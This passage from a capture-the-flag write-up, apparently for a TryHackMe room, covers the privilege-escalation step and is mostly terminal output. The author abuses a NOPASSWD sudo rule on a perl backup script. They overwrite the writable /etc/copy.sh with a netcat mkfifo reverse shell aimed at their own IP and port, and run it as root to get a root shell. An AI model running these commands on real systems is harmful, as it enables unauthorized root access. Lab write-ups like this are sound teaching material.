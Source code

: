 ### [Privilege Escalation]
---
Now that I had user access, it’s time to get root. To do this, the first step is nearly always to run the command “sudo -l” and see what we get.
```
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
	env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
	(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
This showed me that I could run the file “backup.pl”, so I wanted to check out what it was.
```
$ ls -al /home/itguy/backup.pl
-rw-r--r-x 1 root root 47 Nov 29  2019 /home/itguy/backup.pl
$ file /home/itguy/backup.pl
/home/itguy/backup.pl: a /usr/bin/perl script, ASCII text executable                                           	 
$ cat /home/itguy/backup.pl                                                                                    	 
#!/usr/bin/perl                                                                                                	 

system("sh", "/etc/copy.sh");
```
So, “backup.pl” is an executable file that runs the bash script “/etc/copy.sh”, interesting. Now to look at that file!
```
$ cat /etc/copy.sh                                                                                             	 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f                               	 
$ nano /etc/copy.sh                                                                                            	 
Unable to create directory /var/www/.nano: Permission denied                                                   	 
It is required for saving/loading search history or cursor positions.                                          	 

Press Enter to continue                                                                                        	 

Error opening terminal: unknown.      
```
For some reason, the file contains a reverse shell script so all we need to do is edit the file and add our own IP address and port to give us the reverse connection. However, I cannot seem to use nano or vim, so unfortunately, I had to use echo. So, I just copied the reverse shell script, changed the IP address and port, and used echo to add it to the file.
```
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.17.181 4445 >/tmp/f" > /etc/copy.sh
$ sudo /usr/bin/perl /home/itguy/backup.pl
rm: cannot remove '/tmp/f': No such file or directory
```
Finally, I ran the “backup.pl” file using sudo, along with setting up another netcat listener for the reverse connection and got root!
```
$ nc -lnvp 4445      	 
listening on [any] 4445 ...
connect to [10.9.17.181] from (UNKNOWN) [10.10.29.220] 36216
/bin/sh: 0: can't access tty; job control turned off
# whoami
```